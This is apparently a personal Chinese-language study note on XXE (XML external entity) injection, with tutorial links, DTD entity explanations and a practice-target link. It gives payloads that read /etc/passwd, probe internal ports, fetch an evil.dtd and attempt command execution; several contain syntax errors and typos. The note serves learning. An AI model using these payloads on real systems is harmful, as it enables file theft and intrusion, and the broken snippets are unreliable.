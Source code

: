 [c0ny1/xxe-lab: 一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)
[[web安全原理分析]-XEE漏洞入门 - 笑花大王 - 博客园](https://www.cnblogs.com/xhds/p/12327732.html)
[浅谈XML实体注入漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/175451.html)
XEE——XML External Entity Injection XML外部实体注入 
XML——eXtensible Markup Language 可扩展标记语言
    配置文件
    交换数据
    ![](图片/Pasted%20image%2020241118110457.png)
DTD—— Document Type Definition  文档类型定

ElEMENT——元素 [DTD 元素 | 菜鸟教程](https://www.runoob.com/dtd/dtd-elements.html)
ENTITY——实体 [DTD 实体 | 菜鸟教程](https://www.runoob.com/dtd/dtd-entities.html)
    内部声明
        `<!ENTITY entity-name "entity-value">`
        DTD 实例:  
             `<!ENTITY writer "Donald Duck.">  
            `<!ENTITY copyright "Copyright runoob.com">  
        XML 实例：  
            `<author>&writer;&copyright;</author>`
    外部声明
        `<!ENTITY entity-name SYSTEM "URI/URL">`
            DTD 实例: 
                `<!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">`
                `<!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">`
            XML 实例： 
                `<author>&writer;&copyright;</author>`
外部声明引用：协议
    file file:///etc//passwd
    php php://filter/read=convert.base64 encode/resource=index.php 
    http http//:wuya.com/evil.dtd
![](图片/Pasted%20image%2020241118111733.png)


可以实现
文件读取
payload

```c
并非c只是为了高亮
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="file:///etc/passwd"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```

内网探测
利用xxe漏洞进行内网探测，如果端口开启，请求返回的时间会很快，如果端口关闭请求返回的时间会很慢
```c
并非c只是为了高亮
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="http://127.0.0.1.22"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```



命令执行
[伪协议](../../伪协议.md)
```c
并非c只是为了高亮
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="except://id"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```



```c
并非c只是为了高亮
<!-- XML声明(定义了XML的版本和编码) -->
<?xml version="1.0" encoding="ISO-8859-1"?>

<!-- 文档类型定义 -->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)> 
  <!ELEMENT to      (#PCDATA)>           <!-- 定义to元素为#PCDATA类型  -->
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>

<!-- 文档元素 -->
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>

```


[一个靶场](http://web.jarvisoj.com:9882)
